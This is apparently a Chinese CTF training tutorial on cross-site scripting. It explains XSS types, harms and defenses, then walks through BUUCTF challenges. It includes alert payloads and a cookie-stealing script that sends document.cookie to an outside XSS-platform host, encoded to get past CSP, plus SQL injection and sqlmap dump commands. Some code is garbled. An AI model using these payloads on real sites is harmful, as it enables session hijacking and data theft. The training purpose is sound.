




CTF WEB专题--XSS跨站点脚本攻击¶
WEB解题过程：¶
- 总览全局：大体掌握题目有哪些、哪些可用的功能（怎么写出来的）、以及可能存在的漏洞的功能点
- 步步为营：测试各个功能点，简称fuzz环节。对于有代码的题目，则进行初步的代码审计
- 深入探索：对于可能存在漏洞的地方，深入研究，依据网上已存在的资料进行辅佐，编写poc
- 柳暗花明：对于一般ctf题目，flag都有明确的位置说明，通过正确解题思路一定可以获取到。最通常的flag放置的位置在根目录下，以文件形式存储。
WEB题目的套路¶
- 根据hint识别出题方向 出题人会在题目的下面方给出的提示，例如登录一下好吗、flag在根目录
- 切忌钻牛角尖、多方向解题 在某一个点认为是sql注入，尝试了各种办法没有绕过去，可能事一套组合拳，就不一定要用拆解表拿到一些数据，可能通过其他的方式来拿到一些值，再去解题。 一题多解，例如在存在文件包含的同时并存在着文件读取
- 巧用搜索引擎 代码高亮题，代码某一部分的函数是有漏洞的，前后截一下，前面放上ctf的关键字，尽量用英文搜，如ctf parse_url。 尽量用英文搜
什么是XSS¶
- Cross Site Scripting :跨站脚本
- Cascading Style Sheets : 层叠样式表
XSS产生的原因¶
在用户去访问浏览器，执行一些没有预期到的脚本

XSS类型¶
反射型¶
- 服务端返回脚本，客户端执行，非持久性
- CTF比赛中出现的场景：加载图片处、编辑用户名处
存储型¶
- 后台存储了非法脚本，并前端直接展示，持久性
- CTF比赛中出现的场景：留言板，给管理员发一条留言好吗？
DOM型¶
- CTF比赛中出现的场景：动态执行JavaScript语句，更改dom树结构
在ctf题中最多的是反射和存储型xss、DOM型的很少
XSS的危害¶
- 挂马
- 盗取用户的cookie
- DDOS(拒绝服务攻击)
- 钓鱼攻击
- 删除目标文章、恶意篡改数据、嫁祸
- 劫持用户 web行为。甚至进一步渗透内网
- 爆发 web2.0 蠕虫
XSS存在的原因¶
url中参数，用户输入的地方没有做充分的过滤，有一些不合法的参数和输入回到我们的web服务器，那用户在访问前端页面的时候就会把不合法的代码执行，导致这样一个后果。
一个小的例子¶
<?php
echo $_GET["abc"];
#echo "¬";
>
abc=<img src='http://www.cuc.edu.cn/_upload/site/00/05/5/logo.png'/>
XSS的防范¶
对输入进行过滤，对输出进行编码。
1. 输入处理
用户的输入输出、url、post请求参数
- 输出处理
编码，转义（html entity）
< : &It > : > \:\\ / :\/ - cookie 设置为 http-only
4. 编程语言防御代码（不同编程语言有对应的库进行转义）¶
XSS题目对能力的要求¶
- 能够找到XSS的点
- 能够绕过浏览器内置的保护机制以及程序本身的过滤机制插入XSS脚本进行利用
- 会使用XSS盲打平台
常见的XSS出题方式¶
例题1 BUU XSS COURSE 1¶
- 考察点：xss跨站点脚本
HTML
payload1:<script>alert(111)</script> payload2:<img src="http://www.cuc.edu.cn/_upload/site/00/05/5/logo.png"> payload3:<img src='aaaaaaa' onerror='alert("1")'/>标签 HTML 事件属性
例题1 BUU XSS COURSE 1¶
使用buuctf的xss Platform提供的代码构造payload:
工具： EditThisCookie或brupsuite修改请求的cookie
例题2 [CISCN2019 华东北赛区]Web2¶
- 考察点：储存型 XSS 与过滤绕过、sql注入

例题2 [CISCN2019 华东北赛区]Web2¶

例题2 [CISCN2019 华东北赛区]Web2¶
其中default-src 'self';'unsafe-inline' 'unsafe-eval'是什么意思 1. default-src 'self'：只允许加载站内资源 2. 'unsafe-inline'：允许执行页面内嵌的标签个事件监听函数 3. 'unsafe-eval'：允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval等函数
使用HTML Markup来绕过
例题2 [CISCN2019 华东北赛区]Web2¶
转换脚本
in_str = "(function(){(window.location.href='http://xss.buuoj.cn/index.php?do=api&id=uavZKE&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();" output = "" for c in in_str: output += "&#" + str(ord©) print("")
例题2 [CISCN2019 华东北赛区]Web2¶

例题2 [CISCN2019 华东北赛区]Web2¶
在提交URL的地方需要提交验证码，验证码需要计算 ，下面为计算验证码脚本。
import hashlib
for i in range(1,100000001):
s=hashlib.md5(str(i).encode('utf-8')).hexdigest()[0:6]
if s== "71bdc4":
print(i)
break
例题2 [CISCN2019 华东北赛区]Web2¶
测一下，发现应该是有 sql 注入的。
-1 union select 'a','l','z'#

那直接 sqlmap 跑跑试试
sqlmap -u "http://b93b108d-d3f1-483b-8792-b57923b21dd1.node3.buuoj.cn/admin.php?id=22" --cookie="PHPSESSID=a12c2fc20734d96babeb90efb16ba48d" -T flag --dump --flush-session --fresh-queries
参考链接¶
window.opener CSP CSP绕过方法总结-先知社区 CSP绕过方法总结-知乎 深入理解浏览器解析机制和XSS向量编码
练习题目¶
writeups：1 2
1. 0x01 XSS 跨站脚本攻击【中等】
- 题目地址:xss-game
- 思路：通过观察参数，发现url内容被直接写入了\标签，尝试构造payload，发现双引号被过滤，使用单引号成功触发xss
- 0x02 XSS 跨站脚本攻击【中等】
- 题目地址:web类 CISCN2019华东北赛区web2
- 思路：找到XSS注入点，绕过csp限制，获取管理员的cookie，使用管理员的cookie登录，sql注入得到flag